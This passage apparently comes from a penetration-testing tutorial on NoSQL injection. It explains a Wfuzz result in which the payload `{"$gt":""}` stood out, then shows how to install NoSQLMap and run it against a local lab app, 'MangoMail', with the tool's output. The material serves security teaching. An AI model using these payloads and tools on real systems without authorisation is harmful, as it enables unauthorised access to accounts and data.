 With the argument `-z`, we supplied the wordlist we will use (SecLists' in this case), with `-u` we supplied the URL of the target application, and then with `-d` we supplied POST data (the JSON object containing the tracking number in this case) that should be sent. Instead of a tracking number, we put `FUZZ` in the POST data, which Wfuzz will replace with payloads from our wordlist when fuzzing.

Taking a look at the results, we can see that `{"$gt":""}` stands out because the response size was `136 Ch` compared to all other responses, which were `35 Ch` long. This implies that this specific payload caused the server to react differently, and we should follow this up by manually resending the payload and seeing the result.

* * *

## Tools

#### NoSQLMap

[NoSQLmap](https://github.com/codingo/NoSQLMap) is an open-source Python 2 tool for identifying NoSQL injection vulnerabilities. We can install it by running the following commands (the [Docker](https://github.com/codingo/NoSQLMap/tree/master/docker) container does not seem to work).

```shell
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
sudo apt install python2.7
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
pip2 install couchdb
pip2 install --upgrade setuptools
pip2 install pbkdf2
pip2 install pymongo
pip2 install ipcalc

```

We can demonstrate this tool on `MangoMail`. Imagine we know the admin's email is `[email protected]`, and we want to test if the `password` field is vulnerable to NoSQL injection. To test that out, we can run `NoSQLMap` with the following arguments:

- `--attack 2` to specify a `Web attack`
- `--victim 127.0.0.1` to specify the IP address
- `--webPort 80` to specify the port
- `--uri /index.php` to specify the URL we want to send requests to
- `--httpMethod POST` to specify we want to send POST requests
- `--postData email,[email protected],password,qwerty` to specify the two parameters `email` and `password` that we want to send with the default values `[email protected]` and `qwerty` respectively
- `--injectedParameter 1` to specify we want to test the `password` parameter
- `--injectSize 4` to specify a default size for randomly generated data

```shell
python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 --uri /index.php --httpMethod POST --postData

email,[email protected],password,qwerty --injectedParameter 1 --injectSize 4
Web App Attacks (POST)
===============
Checking to see if site at 127.0.0.1:80/index.php is up...
App is up!
List of parameters:
1-password
2-email
Injecting the password parameter...
Using [email protected] for injection testing.

Sending random parameter value...
Got response length of 1250.
No change in response size injecting a random parameter..
```
